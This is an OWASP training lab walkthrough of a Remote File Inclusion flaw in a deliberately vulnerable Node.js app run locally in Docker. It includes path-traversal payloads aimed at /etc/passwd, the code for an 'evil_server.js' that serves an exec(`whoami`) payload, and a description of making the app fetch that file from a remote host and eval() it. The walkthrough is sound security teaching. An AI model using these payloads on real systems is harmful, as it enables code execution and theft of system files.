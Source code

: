 # Remote File Inclusion - RFI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/nodejs/RFI/1.png)

![](../../.gitbook/assets/nodejs/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/nodejs/RFI/3.png)

Creating your own webserver: In this case you can use nodeJs express to create a small webserver that serves your file. We name it evil_server.js

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.sendFile(__dirname + "/evil.txt");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Install dependencies:

```
$ npm install express
```

Then we create a file evil.txt and put the content below

```javascript
exec(`whoami`);
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ node evil_server.js
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](../../.gitbook/assets/nodejs/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
